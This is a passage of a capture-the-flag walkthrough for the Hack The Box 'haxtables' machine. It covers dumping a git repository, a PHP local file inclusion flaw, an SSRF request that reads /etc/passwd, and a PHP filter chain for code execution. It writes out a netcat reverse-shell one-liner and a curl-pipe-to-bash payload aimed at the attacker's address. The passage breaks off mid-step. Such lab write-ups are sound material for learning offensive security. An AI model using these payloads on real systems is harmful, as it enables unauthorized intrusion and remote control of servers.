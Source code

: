 ````./gitdumper.sh  http://image.haxtables.htb/.git/ image````
Because it allows you to provide a file to include via an HTTP parameter, this code is susceptible to LFI.
````
<?php 
 
include_once 'utils.php'; 
 
if (isset($_GET['page'])) { 
    $page = $_GET['page']; 
    include($page); 
 
} else { 
    echo jsonify(['message' => 'No page specified!']); 
} 
 
?>
````
<br><br>
We discover that the code is vulnerable to SSRF after thoroughly analysing it. The code determines whether JSON or file-format data was sent in the HTTP request. The data is decrypted and utilised in a call to the ``make_api_call`` function in both scenarios. Before being utilised in the HTTP request, the data is not properly validated, though.
<br>
On this method, we can conduct the ssrf and consult the file "action handler" of the LFI-vulnerable subdomain ``image.haxtables.htb``.
````
whatever@image.haxtables.htb/actions/action_handler.php?page=/etc/passwd&"}
````
![image](https://user-images.githubusercontent.com/114393219/219818909-96043f2b-09c2-4395-bd82-35b65d847acf.png)

<br>

The JSON request parameters will look like this 
````
{"action":"str2hex","data":"lol","uri_path":"whatever@image.haxtables.htb/actions/action_handler.php?page=/etc/passwd&"}
````

## Php Filter Chain for RCE

I discovered that we may utilize the ``php filters chain`` approach, which enables an attacker to create a chain of filters that process and modify input data. An interactive shell can be created using this method.
<br><br>
The following generator can be used to speed up and automate the process of building a PHP filter chain. With the help of this generator, we can quickly build a series of reliable filters without experiencing any difficulties or problems.
<br><br>
Here is the link for Php-filter Chain :: https://github.com/synacktiv/php_filter_chain_generator
<br><br>
Now first create a file "$file_name" with reverse shell inside on your local machine
````
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.x 9001 >/tmp/f" > haha
````
Then host the python http server at the location where our above rev-shell file is created !!
<br><br>
![Screenshot from 2023-02-18 05-48-06](https://user-images.githubusercontent.com/114393219/219820279-2d1e69ba-1630-4815-aba4-0c487156e8c2.jpg)

````
python3 php_filter_chain_generator.py --chain "<?php system('curl http://10.10.14.x/haha|bash');?>"
````
This will generate php-filter chain . Now copy the output from
```
php://filter/convert.iconv.UTF8.C......................................................................................................|convert.base64-decode/resource=php://temp
````